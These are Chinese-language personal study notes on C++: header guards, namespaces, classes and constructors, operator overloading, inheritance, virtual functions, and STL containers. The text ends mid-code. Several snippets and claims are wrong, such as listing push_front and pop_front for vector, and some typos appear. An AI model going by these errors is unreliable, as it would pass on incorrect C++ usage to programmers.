- 源代码文件：包含调用与结构相关的函数的代码。

请不要将函数定义或变量声明放到头文件中。这样做对于简单的情况可能是可行的，但通常会引来麻烦。例如，如果在头文件包含一个函数定义，然后在其他两个文件（属于同一个程序）中包含该头文件，则同一个程序中将包含同一个函数的两个定义，除非函数是内联的，否则这将出错。

下面列出了头文件中常包含的内容。

- 函数原型。
- 使用#define或const定义的符号常量。
- 结构声明。
- 类声明。模板声明。内联函数。

将结构声明放在头文件中是可以的，因为它们不创建变量，而只是在源代码文件中声明结构变量时，告诉编译器如何创建该结构变量。同样，模板声明不是将被编译的代码，它们指示编译器如何生成与源代码中的函数调用相匹配的函数定义。被声明为const的数据和内联函数有特殊的链接属性（稍后将介绍），因此可以将其放在头文件中，而不会引起问题。


**注意**

在同一个文件中只能将同一个头文件包含一次。记住这个规则很容易，但很可能在不知情的情况下将头文件包含多次。例如，可能使用包含了另外一个头文件的头文件。有一种标准的C/C++技术可以避免多次包含同一个头文件。它是基于预处理器编译指令`#ifndef`（即`ifnotdefined`）的。下面的代码片段意味着仅当以前没有使用预处理器编译指令`#define`定义名称COORDINH时，才处理`#ifndef和#endif`之间的语句：

```
#ifndef COORDIN_H_
…
#endif
```

通常，使用#define语句来创建符号常量，如下所示：

#define MAXIMUM 4096

但只要将#define用于名称，就足以完成该名称的定义，如下所示：

#define COORDIN_H_

使用这种技术是为了将文件内容包含在#ifndef中：

```
#ifndef COORDIN_H_
#define COORDIN_H_
……//place include file contents here
#endif
```

编译器首次遇到该文件时，名称COORDINH没有定义（我们根据include文件名来选择名称，并加上一些下划线，以创建一个在其他地方不太可能被定义的名称）。在这种情况下，编译器将查看`#ifndef`和#endif之间的内容（这正是我们希望的），并读取定义COORDINH的一行。如果在同一个文件中遇到其他包含`coordin.h`的代码，编译器将知道COORDINH已经被定义了，从而跳到`#endfi`后面的一行上。注意，这种方法并不能防止编译器将文件包含两次，而只是让它忽略除第一次包含之外的所有内容。大多数标准C和C++头文件都使用这种防护（guarding）方案。否则，可能在一个文件中定义同一个结构两次，这将导致编译错误。


#### 名称空间

##### 作用域

1. 声明区域（declarationregion）。声明区域是可以在其中进行声明的区域。例如，可以在函数外面声明全局变量，对于这种变量，其声明区域为其声明所在的文件。对于在函数中声明的变量，其声明区域为其声明所在的代码块。
2. 潜在作用域（potential scope）。变量的潜在作用域从声明点开始，到其声明区域的结尾。因此潜在作用域比声明区域小，这是由于变量必须定义后才能使用。
3. 然而，变量并非在其潜在作用域内的任何位置都是可见的。例如，它可能被另一个在嵌套声明区域中声明的同名变量隐藏。例如，在函数中声明的局部变量（对于这种变量，声明区域为整个函数）将隐藏在同一个文件中声明的全局变量（对于这种变量，声明区域为整个文件）。变量对程序而言可见的范围被称为作用域（scope），前面正是以这种方式使用该术语的。


图中对术语声明区域、潜在作用域和作用域进行了说明。C++关于全局变量和局部变量的规则定义了一种名称空间层次。每个声明区域都可以声明名称，这些名称独立于在其他声明区域中声明的名称。在一个函数中声明的局部变量不会与在另一个函数中声明的局部变量发生冲突。

##### 名称空间

C++新增了这样一种功能，即通过定义一种新的声明区域来创建命名的名称空间，这样做的目的之一是提供一个声明名称的区域。一个名称空间中的名称不会与另外一个名称空间的相同名称发生冲突，同时允许程序的其他部分使用该名称空间中声明的东西。例如，下面的代码使用新的关键字namespace创建了两个名称空间：Jack和Jill。

```
namespace Jack{
	double pall;
	void fetch;
	int pal;
	struct Well{……}
}
namespace Jill{
	double bucket(double n);
	double fetch;
	int pal;
	struct Hill{……}；
}
```

名称空间可以是全局的，也可以位于另一个名称空间中，但不能位于代码块中。因此，在默认情况下，在名称空间中声明的名称的链接性为外部的（除非它引用了常量）。

除了用户定义的名称空间外，还存在另一个名称空间——全局名称空间（globalnamespace）。它对应于文件级声明区域，因此前面所说的全局变量现在被描述为位于全局名称空间中。

任何名称空间中的名称都不会与其他名称空间中的名称发生冲突。因此，Jack中的fetch可以与Jill中的fetch共存，Jill中的Hill可以与外部Hill共存。名称空间中的声明和定义规则同全局声明和定义规则相同。

名称空间是开放的（open），即可以把名称加入到已有的名称空间中。例如，下面这条语句将名称goose添加到Jill中已有的名称列表中：

```
namespace Jill{
	char *goose(const char*);
}
```

同样，原来的Jack名称空间为fetch()函数提供了原型。可以在该文件后面（或另外一个文件中）再次使用Jack名称空间来提供该函数的代码

```
namespace Jack{
	void fetch(){
	……
	}
}
```

通过作用域解析运算符`::`，使用名称空间来限定该名称。

未被装饰的名称（如pail）称为未限定的名称（unqualified name）；包含名称空间的名称（如Jack::pail）称为限定的名称（qualified name）。

##### using声明和using编译指令

我们并不希望每次使用名称时都对它进行限定，因此C++提供了两种机制（using声明和using编译指令）来简化对名称空间中名称的使用。using声明使特定的标识符可用，using编译指令使整个名称空间可用。

using声明由被限定的名称和它前面的关键字using组成：

`using Jill::fetch;`

using声明将特定的名称添加到它所属的声明区域中。例如main()中的using声明Jill::fetch将fetch添加到main()定义的声明区域中。完成该声明后，便可以使用名称fetch代替Jill::fetch。

```
namespace Jill{
	double bucket(double n);
	double fetch;
	int pal;
	struct Hill{……}；
}
char fetch;
int main(){
	using Jill::fetch;	
	double fetch;		//Error!Already have a local fetch
	cin>>fetch;			//read a value into Jill::fetch
	cin>>::fetch;		//read a value into global fetch
}
```

using声明使一个名称可用，而using编译指令使所有的名称都可用。using编译指令由名称空间名和它前面的关键字`using namespace`组成，它使名称空间中的所有名称都可用，而不需要使用作用域解析运算符：

`using namespace Jack;`

使用using编译指令导入一个名称空间中所有的名称与使用多个using声明是不一样的，而更像是大量使用作用域解析运算符。使用using声明时，就好像声明了相应的名称一样。如果某个名称已经在函数中声明了，则不能用using声明导入相同的名称。然而，使用using编译指令时，将进行名称解析，就像在包含using声明和名称空间本身的最小声明区域中声明了名称一样。名称空间为全局的。如果使用using编译指令导入一个已经在函数中声明的名称，则局部名称将隐藏名称空间名，就像隐藏同名的全局变量一样。


#### 对象和类

##### 类

指定类设计的第一步是提供类声明。类声明类似结构声明，可以包括数据成员和函数成员。声明有私有部分，在其中声明的成员只能通过成员函数进行访问；声明还具有公有部分，在其中声明的成员可被使用类对象的程序直接访问。

公有部分的内容构成了设计的抽象部分——公有接口。将数据封装到私有部分中可以保护数据的完整性，这被称为数据隐藏。

```
class Stock
{
private:
	std::string company;
	long shares;
	double share_val;
	double total_val;
	void set_tot() { total_val = shares * share_val; }
public:
	void acqurie(const std::string& co, long n, double pr);
	void buy(long num, double price);
	void sell(long num, double price);
	void update(double price);
	Stock(const string& co, long n, double pr);
	Stock();
	~Stock();
	
};
```

成员函数定义与常规函数定义非常相似，它们有函数头和函数体，也可以有返回类型和参数。但是它们还有两个特殊的特征：

- 定义成员函数时，使用作用域解析运算符（::）来标识函数所属的类；
- 类方法可以访问类的private组件。

成员函数的函数头使用作用域运算符解析（::）来指出函数所属的类。

`void Stock::update(double price)`


创建Stock的构造函数

```
Stock::Stock(const string& co, long n, double pr)
{

}
```

**默认构造函数**

是在未提供显式初始值时，用来创建对象的构造函数。

如果没有提供任何构造函数，则C++将自动提供默认构造函数。它是默认构造函数的隐式版本，不做任何工作。

```
Stock::Stock(){

}
```

当且仅当没有定义任何构造函数时，编译器才会提供默认构造函数。为类定义了构造函数后，程序员就必须为它提供默认构造函数。如果提供了非默认构造函数（如Stock(const char*co,int n,double pr)），但没有提供默认构造函数，则下面的声明将出错：

`Stock st;`

```
Stock fist("fgv");
Stock second();
Stock third;
```

不要被非默认构造函数的隐式形式所误导：第一个声明调用非默认构造函数，即接受参数的构造函数；第二个声明指出，second()是一个返回Stock对象的函数。隐式地调用默认构造函数时，不要使用圆括号。

**拷贝构造函数**

是一种特殊的构造函数，它在创建对象时，是使用同一类中之前创建的对象来初始化新创建的对象。拷贝构造函数通常用于：

- 通过使用另一个同类型的对象来初始化新创建的对象。
- 复制对象把它作为参数传递给函数。
- 复制对象，并从函数返回这个对象。

如果在类中没有定义拷贝构造函数，编译器会自行定义一个。如果类带有指针变量，并有动态内存分配，则它必须有一个拷贝构造函数。拷贝构造函数的最常见形式如下：

```
classname (const classname &obj) {   // 构造函数的主体 }
```


**析构函数**

用构造函数创建对象后，程序负责跟踪该对象，直到其过期为止。对象过期时，程序将自动调用一个特殊的成员函数，该函数的名称令人生畏——析构函数。析构函数完成清理工作，因此实际上很有用。例如，如果构造函数使用new来分配内存，则析构函数将使用delete来释放这些内存。Stock的构造函数没有使用new，因此析构函数实际上没有需要完成的任务。

```
Stock::~Stock(){

}
```

**初始化列表构造函数**

```
Tel::Tel(int s1,int s2,int s3):s1(s1),s2(s2){
    this->s3=s3;
}
```


C++自动提供了下面这些成员函数：

- 默认构造函数，如果没有定义构造函数；
- 默认析构函数，如果没有定义；
- 复制构造函数，如果没有定义；
- 赋值运算符，如果没有定义；
- 地址运算符，如果没有定义。

更准确地说，编译器将生成上述最后三个函数的定义——如果程序使用对象的方式要求这样做。


只能有一个默认构造函数。也就是说，不能这样做：

```
class A
{
private:
    int x;
public:
    void print();
    A(){		//1
        x=0;
    };
    A(int n=0){	//2
        x=n;
    };
};
A a();
A b;

```

第二个声明既与构造函数#1（没有参数）匹配，也与构造函数#2（使用默认参数0）匹配。这将导致编译器发出一条错误消息。


复制构造函数用于将一个对象复制到新创建的对象中。也就是说，它用于初始化过程中（包括按值传递参数），而不是常规的赋值过程中。类的复制构造函数原型通常如下：

```
classname (const classname &obj) {   // 构造函数的主体 }
```

新建一个对象并将其初始化为同类现有对象时，复制构造函数都将被调用。这在很多情况下都可能发生，最常见的情况是将新对象显式地初始化为现有的对象。例如，假设a是一个A对象(`A a(2)`)，则下面4种声明都将调用复制构造函数：

```
 A b(a);
 A c=a;
 A d=A(3);
 A *e=new A(a);
 /*
加括号调用没有参数的构造函数，不加括号调用默认构造函数或唯一的构造函数，看需求
 C++在new时的初始化的规律可能为：对于有构造函数的类，不论有没有括号，都用构造函数进行初始化；如果没有构造函数，则不加括号的new只分配内存空间，不进行内存的初始化，而加了括号的new会在分配内存的同时初始化为0。
 */
```

其中中间的2种声明可能会使用复制构造函数直接创建c和d，也可能使用复制构造函数生成一个临时对象，然后将临时对象的内容赋给c和d，这取决于具体的实现。最后一种声明使用a初始化一个匿名对象，并将新对象的地址赋给e指针。

每当程序生成了对象副本时，编译器都将使用复制构造函数。具体地说，当函数按值传递对象或函数返回对象时，都将使用复制构造函数。记住，按值传递意味着创建原始变量的一个副本。编译器生成临时对象时，也将使用复制构造函数。


**this指针**

每个成员函数（包括构造函数和析构函数）都有一个this指针。this指针指向调用对象。如果方法需要引用整个调用对象，则可以使用表达式`*this`。在函数的括号后面使用const限定符将this限定为const，这样将不能使用this来修改对象的值。然而，要返回的并不是this，因为this是对象的地址，而是对象本身，即`*this`（将解除引用运算符*用于指针，将得到指针指向的值）。现在，可以将`*this`作为调用对象的别名来完成前面的方法定义。


在 C++ 中，每一个对象都能通过 **this** 指针来访问自己的地址。**this** 指针是所有成员函数的隐含参数。因此，在成员函数内部，它可以用来指向调用对象。

友元函数没有 **this** 指针，因为友元不是类的成员。只有成员函数才有 **this** 指针。


##### 运算符重载

实现类之间的相加

```
class Time
{
private:
    int hours;
    int minutes;
public:
    Time();
    Time(int h, int m = 0);
    void AddMin(int m);
    void AddHr(int h);
    void Reset(int h = 0, int m = 0);
    Time operator+(const Time & t) const;
    void Show() const;
};
Time Time::operator+(const Time & t) const
{
    Time sum;
    sum.minutes = minutes + t.minutes;
    sum.hours = hours + t.hours + sum.minutes / 60;
    sum.minutes %= 60;
    return sum;
}
/*
定义的类的成员函数中，常常有一些成员函数不会修改类的数据成员，也就是说，这些函数是"只读"函数，而有一些函数要修改类数据成员的值。如果把不改变数据成员的函数都加上const关键字进行标识，可提高程序的可读性。其实，它还能提高程序的可靠性，已定义成const的成员函数，一旦修改数据成员的值，则编译器报错。
*/
Time coding,fixing;
coding.operator+(fixing);
total=coding+fixing；
```


多数C++运算符都可以用这样的方式重载。

重载的运算符（有些例外情况）不必是成员函数，但必须至少有一个操作数是用户定义的类型。下面详细介绍C++对用户定义的运算符重载的限制。

1. 重载后的运算符必须至少有一个操作数是用户定义的类型，这将防止用户为标准类型重载运算符。因此，不能将减法运算符（−）重载为计算两个double值的和，而不是它们的差。虽然这种限制将对创造性有所影响，但可以确保程序正常运行。

2. 使用运算符时不能违反运算符原来的句法规则。例如，不能将求模运算符（%）重载成使用一个操作数。同样，不能修改运算符的优先级。因此，如果将加号运算符重载成将两个类相加，则新的运算符与原来的加号具有相同的优先级。

3. 不能创建新运算符。例如，不能定义`operator**()`函数来表示求幂。

4. 不能重载下面的运算符。

   注意：sizeof：sizeof运算符。.：成员运算符。.*：成员指针运算符。::：作用域解析运算符。?:：条件运算符。typeid：一个RTTI运算符。const_cast：强制类型转换运算符。dynamic_cast：强制类型转换运算符。reinterpret_cast：强制类型转换运算符。static_cast：强制类型转换运算符。

5. 大多数运算符都可以通过成员或非成员函数进行重载，但下面的运算符只能通过成员函数进行重载。

   =：赋值运算符。()：函数调用运算符。[]：下标运算符。->：通过指针访问类成员的运算符。


##### 通过友元函数实现运算符重载


类的友元函数是定义在类外部，但有权访问类的所有私有（private）成员和保护（protected）成员。尽管友元函数的原型有在类的定义中出现过，但是友元函数并不是成员函数。

友元可以是一个函数，该函数被称为友元函数；友元也可以是一个类，该类被称为友元类，在这种情况下，整个类及其所有成员都是友元。

如果要声明函数为一个类的友元，需要在类定义中该函数原型前使用关键字 **friend**，如下所示：

`friend Time operator+(const Time & t) const;`

该原型意味着下面两点：

- 虽然operator+()函数是在类声明中声明的，但它不是成员函数，因此不能使用成员运算符来调用；
- 虽然operator+()函数不是成员函数，但它与成员函数的访问权限相同。

函数定义。因为它不是成员函数，所以不要使用Time::限定符。

**重载<<符号**

```
void  operator<<(ostream& os,const Time& t){
	os<<t.hours<<t.minutes;
}
```


```
ostream& operator<<(ostream& os,const Time& t){
	os<<t.hours<<t.minutes;
	return os;
}
```

**赋值运算符**

`classname & classname::operator= (const classname &obj) ;`

将已有的对象赋给另一个对象时，将使用重载的赋值运算符：

```
A a,b(2);
a=b;
```

初始化对象时，并不一定会使用赋值运算符：

```
A a;
A b=a;
```

这里，b是一个新创建的对象，被初始化为a的值，因此使用复制构造函数。然而，正如前面指出的，实现时也可能分两步来处理这条语句：使用复制构造函数创建一个临时对象，然后通过赋值将临时对象的值复制到新对象中。这就是说，初始化总是会调用复制构造函数，而使用=运算符时也可能调用赋值运算符。

```
//返回引用重载=
Employee &Employee::operator=(const Employee& e){
	this->firstName=e.firstName;
	this->lastName=e.lastName;
	this->salary=e.salary;
	return *this;
}
```

与复制构造函数相似，赋值运算符的隐式实现也对成员进行逐个复制。如果成员本身就是类对象，则程序将使用为这个类定义的赋值运算符来复制该成员，但静态数据成员不受影响。赋值运算符是只能由类成员函数重载的运算符之一。


可以将成员函数声明为静态的（函数声明必须包含关键字static，但如果函数定义是独立的，则其中不能包含关键字static），这样做有两个重要的后果。首先，不能通过对象调用静态成员函数；实际上，静态成员函数甚至不能使用this指针。如果静态成员函数是在公有部分声明的，则可以使用类名和作用域解析运算符来调用它。例如，可以给String类添加一个名为`HowMany()`的静态成员函数，方法是在类声明中添加如下原型/定义：

```
static int HowMany(){return num_string }
```

调用它的方式如下：

```
int count=String::HowMany();
```

其次，由于静态成员函数不与特定的对象相关联，因此只能使用静态数据成员。例如，静态方法`HowMany()`可以访问静态成员num_string，但不能访问str和len。同样，也可以使用静态成员函数设置类级（classwide）标记，以控制某些类接口的行为。例如，类级标记可以控制显示类内容的方法所使用的格式。

#### 类继承

##### 继承

```
class TableTennisPlayer
{
private:
    string firstname;
    string lastname;
    bool hasTable;
public:
    TableTennisPlayer (const string & fn = "none",
                       const string & ln = "none", bool ht = false);
    void Name() const;
    bool HasTable() const { return hasTable; };
    void ResetTable(bool v) { hasTable = v; };
};
 
// simple derived class
class RatedPlayer : public TableTennisPlayer
{
private:
    unsigned int rating;
public:
    RatedPlayer (unsigned int r = 0, const string & fn = "none",
                 const string & ln = "none", bool ht = false);
    RatedPlayer(unsigned int r, const TableTennisPlayer & tp);
    unsigned int Rating() const { return rating; }
    void ResetRating (unsigned int r) {rating = r;}
};
```

冒号指出`RatedPlayer`类的基类是`TableTennisplayer`类。上述特殊的 声明头表明`TableTennisPlayer`是一个公有基类，这被称为公有派生。派 生类对象包含基类对象。使用公有派生，基类的公有成员将成为派生类 的公有成员；基类的私有部分也将成为派生类的一部分，但只能通过基 类的公有和保护方法访问。

`Ratedplayer`对象将具有以下特征：

- 派生类对象存储了基类的数据成员（派生类继承了基类的实现）； 
- 派生类对象可以使用基类的方法（派生类继承了基类的接口）

派生类需要自己的构造函数。 派生类可以根据需要添加额外的数据成员和成员函数

派生类不能直接访问基类的私有成员，而必须通过基类方法进行访 问。例如，RatedPlayer构造函数不能直接设置继承的成员（firstname、 lastname和hasTable），而必须使用基类的公有方法来访问私有的基类成员。具体地说，派生类构造函数必须使用基类构造函数。


```
RatedPlayer::RatedPlayer(unsigned int r, const string & fn,const string & ln, bool ht) : TableTennisPlayer(fn, ln, ht){
    rating = r;
}
```

其中:`TableTennisPlayer(fn,ln,ht)`是成员初始化列表。它是可执行的 代码，调用`TableTennisPlayer`构造函数。如果不调用基类构造函数，程序将使用默认的基类构造函数。


```
RatedPlayer::RatedPlayer(unsigned int r, const TableTennisPlayer & tp)
    : TableTennisPlayer(tp), rating(r)
{
}
```

由于tp的类型为TableTennisPlayer &，因此将调用基类的复制构造 函数。基类没有定义复制构造函数，但第12章介绍过，如果需要使用复 制构造函数但又没有定义，编译器将自动生成一个。

有关派生类构造函数的要点如下： 

- 首先创建基类对象；
-  派生类构造函数应通过成员初始化列表将基类信息传递给基类构造 函数； 
- 派生类构造函数应初始化派生类新增的数据成员。 

这个例子没有提供显式构造函数，因此将使用隐式构造函数。释放 对象的顺序与创建对象的顺序相反，即首先执行派生类的析构函数，然 后自动调用基类的析构函数。


**派生类和基类之间的特殊关系**

派生类与基类之间有一些特殊关系。其中之一是派生类对象可以使 用基类的方法，条件是方法不是私有的。

另外两个重要的关系是：基类指针可以在不进行显式类型转换的情 况下指向派生类对象；基类引用可以在不进行显式类型转换的情况下引用派生类对象：


```
 TableTennisPlayer::TableTennisPlayer (const string & fn, 
    const string & ln, bool ht) : firstname(fn),
        lastname(ln), hasTable(ht) {}
     
void TableTennisPlayer::Name() const
{
    std::cout << lastname << ", " << firstname;
}
 
// RatedPlayer methods
RatedPlayer::RatedPlayer(unsigned int r, const string & fn,
     const string & ln, bool ht) : TableTennisPlayer(fn, ln, ht)
{
    rating = r;
}
 
RatedPlayer::RatedPlayer(unsigned int r, const TableTennisPlayer & tp)
    : TableTennisPlayer(tp), rating(r)
{
}
```


##### 类多态


```
class Brass
{
private:
    std::string fullName;
    long acctNum;
    double balance;
public:
    Brass(const std::string & s = "Nullbody", long an = -1,
                double bal = 0.0);
    void Deposit(double amt);
    virtual void Withdraw(double amt);
    double Balance() const;
    virtual void ViewAcct() const;
    virtual ~Brass() {}
};
 
//Brass Plus Account Class
class BrassPlus : public Brass
{
private:
    double maxLoan;
    double rate;
    double owesBank;
public:
    BrassPlus(const std::string & s = "Nullbody", long an = -1,
            double bal = 0.0, double ml = 500,
            double r = 0.11125);
    BrassPlus(const Brass & ba, double ml = 500, 
                                double r = 0.11125);
    virtual void ViewAcct()const;
    virtual void Withdraw(double amt);
    void ResetMax(double m) { maxLoan = m; }
    void ResetRate(double r) { rate = r; };
    void ResetOwes() { owesBank = 0; }
};
```


如果方法是通过引用或指 针而不是对象调用的，它将确定使用哪一种方法。如果没有使用关键字 virtual，程序将根据引用类型或指针类型选择方法；如果使用了 virtual，程序将根据引用或指针指向的对象的类型来选择方法。如果 ViewAcct( )不是虚的，则程序的行为如下：

```
Brass a;
BrassPlus b;
Brass &c=a;
Brass &d=b;
c.ViewAcct();//ues Brass::ViewAcct()
d.ViewAcct();//use Brass::ViewAcct()
```

引用变量的类型为Brass，所以选择了Brass::ViewAccount( )。使用 Brass指针代替引用时，行为将与此类似。 如果ViewAcct( )是虚的，则行为如下：

```
Brass a;
BrassPlus b;
Brass &c=a;
Brass &d=b;
c.ViewAcct();//ues Brass::ViewAcct()
d.ViewAcct();//use BrassPlus::ViewAcct()
```

这里两个引用的类型都是Brass，但d引用的是一个BrassPlus对 象，所以使用的是BrassPlus::ViewAcct( )。使用Brass指针代替引用时， 行为将类似。


使用delete释放由new分配的对象的代码说明 了为何基类应包含一个虚析构函数，虽然有时好像并不需要析构函数。 如果析构函数不是虚的，则将只调用对应于指针类型的析构函数。对于 程序，这意味着只有Brass的析构函数被调用，即使指针指向 的是一个BrassPlus对象。如果析构函数是虚的，将调用相应对象类型的析构函数。因此，如果指针指向的是BrassPlus对象，将调用BrassPlus的 析构函数，然后自动调用基类的析构函数。因此，使用虚析构函数可以 确保正确的析构函数序列被调用。对于程序清单13.10，这种正确的行 为并不是很重要，因为析构函数没有执行任何操作。然而，如果 BrassPlus包含一个执行某些操作的析构函数，则Brass必须有一个虚析构函数即使该析构函数不执行任何操作。


##### 静态联编和动态联编

程序调用函数时，将使用哪个可执行代码块呢？编译器负责回答这 个问题。将源代码中的函数调用解释为执行特定的函数代码块被称为函数名联编（binding）。在C语言中，这非常简单，因为每个函数名都对 应一个不同的函数。在C++中，由于函数重载的缘故，这项任务更复杂。编译器必须查看函数参数以及函数名才能确定使用哪个函数。然 而，C/C++编译器可以在编译过程完成这种联编。在编译过程中进行联 编被称为静态联编（static binding），又称为早期联编（early binding）。然而，虚函数使这项工作变得更困难。正如在程序清单所示的那样，使用哪一个函数是不能在编译时确定的，因为编译 器不知道用户将选择哪种类型的对象。所以，编译器必须生成能够在程 序运行时选择正确的虚方法的代码，这被称为动态联编（dynamic binding），又称为晚期联编（late binding）。


将派生类引用或指针转换为基类引用或指针被称为向上强制转换 （upcasting），这使公有继承不需要进行显式类型转换。该规则是is-a 关系的一部分。BrassPlus对象都是Brass对象，因为它继承了Brass对象 所有的数据成员和成员函数。所以，可以对Brass对象执行的任何操 作，都适用于BrassPlus对象。因此，为处理Brass引用而设计的函数可以 对BrassPlus对象执行同样的操作，而不必担心会导致任何问题。将指向 对象的指针作为函数参数时，也是如此。向上强制转换是可传递的，也 就是说，如果从BrassPlus派生出BrassPlusPlus类，则Brass指针或引用可 以引用Brass对象、BrassPlus对象或BrassPlusPlus对象。


通常，编译器处理虚函数的方法是：给每个对象添加一个隐藏成 员。隐藏成员中保存了一个指向函数地址数组的指针。这种数组称为虚函数表（virtual function table，vtbl）。虚函数表中存储了为类对象进行声明的虚函数的地址。例如，基类对象包含一个指针，该指针指向基类 中所有虚函数的地址表。派生类对象将包含一个指向独立地址表的指 针。如果派生类提供了虚函数的新定义，该虚函数表将保存新函数的地址；如果派生类没有重新定义虚函数，该vtbl将保存函数原始版本的地址。如果派生类定义了新的虚函数，则该函数的地址也将被添加到vtbl 中。注意，无论类中包含的虚函数是1个还是10个，都 只需要在对象中添加1个地址成员，只是表的大小不同而已。

.png)

调用虚函数时，程序将查看存储在对象中的vtbl地址，然后转向相 应的函数地址表。如果使用类声明中定义的第一个虚函数，则程序将使 用数组中的第一个函数地址，并执行具有该地址的函数。如果使用类声明中的第三个虚函数，程序将使用地址为数组中第三个元素的函数。

 总之，使用虚函数时，在内存和执行速度方面有一定的成本，包 括：

-  每个对象都将增大，增大量为存储地址的空间；
-  对于每个类，编译器都创建一个虚函数地址表（数组）；
-  对于每个函数调用，都需要执行一项额外的操作，即到表中查找地 址。

 虽然非虚函数的效率比虚函数稍高，但不具备动态联编功能。

**要点**

- 在基类方法的声明中使用关键字virtual可使该方法在基类以及所有 的派生类（包括从派生类派生出来的类）中是虚的。
-  如果使用指向对象的引用或指针来调用虚方法，程序将使用为对象 类型定义的方法，而不使用为引用或指针类型定义的方法。这称为 动态联编或晚期联编。这种行为非常重要，因为这样基类指针或引用可以指向派生类对象。 
- 如果定义的类将被用作基类，则应将那些要在派生类中重新定义的 类方法声明为虚的。


##### 虚函数总结

在C++中，如果类中有虚函数，那么它就会有一个虚函数表的指针__vfptr，在类对象最开始的内存数据中。之后是类中的成员变量的内存数据。


对于子类，最开始的内存数据记录着父类对象的拷贝（包括父类虚函数表指针和成员变量）。 之后是子类自己的成员变量数据。


```
class Base
{
public:
virtual void f() { cout << "Base::f" << endl; }
virtual void g() { cout << "Base::g" << endl; }
virtual void h() { cout << "Base::h" << endl; }
int base;
protected:
private:
};
//子类1，无虚函数重载
class Child1 : public Base
{
public:
virtual void f1() { cout << "Child1::f1" << endl; }
virtual void g1() { cout << "Child1::g1" << endl; }
virtual void h1() { cout << "Child1::h1" << endl; }
int child1;
protected:
private:
};
//子类2，有1个虚函数重载
class Child2 : public Base
{
public:
virtual void f() { cout << "Child2::f" << endl; }
virtual void g2() { cout << "Child2::g2" << endl; }
virtual void h2() { cout << "Child2::h2" << endl; }
int child2;
protected:
private:
};
```

**单一继承，无虚函数重载**


**单一继承，重载了虚函数**


**多重继承**


**总结**

- 如果一个类中有虚函数，那么就会建立一张虚函数表vtable，子类继承父类vtable，若父类的vtable中私有(private)虚函数,则子类vtable中同样有该私有(private)虚函数的地址。**注意这并不是直接继承了私有(private)虚函数**
- 当子类重载父类虚函数时，修改vtable同名函数地址，改为指向子类的函数地址，若子类中有新的虚函数，在vtable尾部添加。
- vptr每个对象都会有一个，而vptable是每个类有一个，vptr指向vtable，一个类中就算有多个虚函数，也只有一个vptr；做多重继承的时候，继承了多个父类，就会有多个vptr

**使用**

1. 构造函数不能是虚函数。创建派生类对象时，将调用派生类的构造 函数，而不是基类的构造函数，然后，派生类的构造函数将使用基类的 一个构造函数，这种顺序不同于继承机制。因此，派生类不继承基类的 构造函数，所以将类构造函数声明为虚的没什么意义。 
2. 析构函数 析构函数应当是虚函数，除非类不用做基类。例如，假设Employee 是基类，Singer是派生类，并添加一个char *成员，该成员指向由new分 配的内存。当Singer对象过期时，必须调用~Singer( )析构函数来释放内存。
3. 友元不能是虚函数，因为友元不是类成员，而只有成员才能是虚函 数。如果由于这个原因引起了设计问题，可以通过让友元函数使用虚成 员函数来解决。
4. 如果派生类没有重新定义函数，将使用该函数的基类版本。如果派 生类位于派生链中，则将使用最新的虚函数版本，例外的情况是基类版本是隐藏的。


纯虚函数声明：
virtual 函数类型 函数名 （参数表列） = 0；


##### 访问控制 protected

关键字protected与private相似，在类外只能用公有类成 员来访问protected部分中的类成员。private和protected之间的区别只有 在基类派生的类中才会表现出来。派生类的成员可以直接访问基类的保 护成员，但不能直接访问基类的私有成员。因此，对于外部世界来说， 保护成员的行为与私有成员相似；但对于派生类来说，保护成员的行为 与公有成员相似。


#### C++代码重用


### C++STL

STL（Standard Template Library），即标准模板库，是一个具有工业强度的，高效的C++程序库。

STL的一个重要特点是数据结构和算法的分离。尽管这是个简单的概念，但这种分离确实使得STL变得非常通用。例如，由于STL的sort()函数是完全通用的，你可以用它来操作几乎任何数据集合，包括链表，容器和数组；

STL另一个重要特性是它不是面向对象的。为了具有足够通用性，STL主要依赖于模板而不是封装，继承和虚函数（多态性）——OOP的三个要素。你在STL中找不到任何明显的类继承关系。这好像是一种倒退，但这正好是使得STL的组件具有广泛通用性的底层特征。另外，由于STL是基于模板，内联函数的使用使得生成的代码短小高效；


STL中六大组件：

容器（Container），是一种数据结构，如list，vector，和deques ，以模板类的方法提供。为了访问容器中的数据，可以使用由容器类输出的迭代器；
迭代器（Iterator），提供了访问容器中对象的方法。例如，可以使用一对迭代器指定list或vector中的一定范围的对象。迭代器就如同一个指针。事实上，C++的指针也是一种迭代器。但是，迭代器也可以是那些定义了operator*()以及其他类似于指针的操作符地方法的类对象；
算法（Algorithm），是用来操作容器中的数据的模板函数。例如，STL用sort()来对一个vector中的数据进行排序，用find()来搜索一个list中的对象，函数本身与他们操作的数据的结构和类型无关，因此他们可以在从简单数组到高度复杂容器的任何数据结构上使用；
仿函数（Functor）
适配器（Adaptor）
分配器（allocator）


pair是将2个数据组合成一组数据，当需要这样的需求时就可以使用pair，如stl中的map就是将key和value放在一起来保存。另一个应用是，当一个函数需要返回2个数据的时候，可以选择pair。 pair的实现是一个结构体，主要的两个成员变量是first second 因为是使用struct不是class，所以可以直接使用pair的成员变量。

其标准库类型--pair类型定义在#include <utility>头文件中，定义如下：

类模板：template<class T1,class T2> struct pair

参数：T1是第一个值的数据类型，T2是第二个值的数据类型。

功能：pair将一对值(T1和T2)组合成一个值，

  这一对值可以具有不同的数据类型（T1和T2），两个值可以分别用pair的两个公有函数first和second访问。


```
stack<int> stack;
stack.push(x);
stack.pop();
stack.empty();
stack.top();	//返回栈顶的值
stack.size();

queue<int> queue;
queue.push(x);
queue.pop();
queue.empty();
queue.front();	//返回队列头的值
queue.size();
```


vector

```
创建
vector<int> obj(4,0);
vector<vector<int>> obj(5,vector<int>(5, 0))；
vector<int> vec(obj.begin(), obj.begin() + i);
vector<int> obj = vector<int> (5, 0);
访问
vector[i];
函数
obj.size();//大小
for(int n : obj){}//迭代

vcetor.pop_back();
vector.push_back(num);
vcetor.pop_front();
vector.push_front(num);
vcetor.back();
vector.front();

reverse(vector.begin() + i, vector.begin() + i + k);
s.resize(vector.size() + n);
```


set

```
创建
unordered_set<int> set;
函数
set.begin();
set.end();
set.insert(sum);//插入
auto iter = set.find(sum);
```


map

```
unordered_map <int,int> map;

auto iter = map.find(key);
iter->first is key, iter->second is value
map.insert(pair<int, int>(key, value)); 
```


```
bool fun(int a,int b)
  {
  	return a < b; // a < b : vec =  1 2 3 4 5 6 7
  				  // a > b : vec =  7 6 5 4 3 2 1
  }
  int main()  
  { 
  	 int a[] = {1,3,2,4,6,7,5}; 
  	 vector<int> vec(a,a+7);
     sort(vec.begin(),vec.end(),fun); //vec = [1 2 3 4 5 6 7]
